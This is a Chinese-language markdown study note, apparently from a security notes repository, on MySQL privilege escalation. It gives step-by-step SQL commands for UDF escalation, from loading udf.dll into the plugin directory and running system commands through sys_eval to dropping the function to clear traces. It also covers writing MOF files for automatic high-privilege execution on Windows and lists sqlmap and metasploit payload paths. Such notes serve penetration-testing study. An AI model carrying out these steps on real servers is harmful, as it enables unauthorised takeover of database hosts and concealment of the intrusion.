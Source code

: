 # MySQL 提权

## 一. UDF(user-defined function) 提权

1. 概念定义
    - 用户自定义函数UDF(user-definedfunction)
    - 数据库功能的一种扩展，用来拓展MysQL
    - 由一个或多个Transact-SQL语句组成的子程序，可用于封装代码以便重新使用
2. 工作原理
    - 利用root权限，创建带有调用cmd的西数的udf.dll动态链接库, 最终利用system权限进行提权操作
3. 利用条件
    - 根据MySQL版本确认存放udf.dll路径
    - 根据MySQL版本位数选择相应的udf.dll文件
    - secure_file_priv不为NULL(可以为`""`)
4. 提权流程
    - 确认插件路径(v5.1 前后, 路径不同), 相关命令:
        ```sql
        select @@version;
        show variables like '%plugin%'; # 查看 `plugin_dir`
        ```
    - 使用数据库并创建表
        ```sql
        use mysql;
        create table foo(line blob);
        ```
    - 导入 `udf.dll` 到数据库
        ```sql
        insert into foo values(load_file('/path/to/udf.dll'))
        ```
    - 导入 `udf.dll` 到插件目录
        ```sql
        select * from foo into dumpfile "/path/to/udf/path/udf.dll";
        ```
    - 创建自定义函数
        ```sql
        create function sys_eval returns string soname 'udf.dll';
        ```
    - 执行系统命令
        ```sql
        select sys_eval('whoami');
        ```
    - 清除痕迹
        ```sql
        drop function sys_eval;
        ```

5. 相关利用工具
    - sqlmap
        - payload 路径 /usr/share/sqlmap/data/udf
        - payload解码脚本路径 /usr/share/sqlmap/extra/cloak
    - metasploit
        - payload 路径 /usr/share/metasploit-framework/data/exploits/mysql
    - 也有一些可以实现反弹shell的dll文件, 有人称之为 `反弹端口提权`
6. 数据库出内网
    - 吐司论坛, udf.php
    - navicat, 自带的隧道工具, mysql连接界面, http选项卡, `export Tunnel Script...`

## 二. MOF(Managed Object Format) 提权

1. 概念定义
    - MOF(Managed Object Format), 托管对象格式
2. 思路
    利用 windows 定时以高权限运行 `C:\Windows\System32\wbem\MOF` 目录下 `.mof` 文件的特性, 往这个目录下写文件, 文件就被被自动以高权限执行, 类似 exploit `msf:exploit/windows/smb/ms10_061_spoolss`
3. 提权流程
    - 构造mof文件
        可以参考 `metasploit-framework/lib/msf/core/exploit/wbem_exec.rb`的实现
    - 上传mof文件
        ```sql
        select load_file("/path/to/mof/file") into dumpfile "C:\Windows\System32\wbem\MOF\xxxx.mof"
        ```
    - 利用
    
## Reference

1. [mysql udf提权](https://www.cnblogs.com/02SWD/p/15858250.html)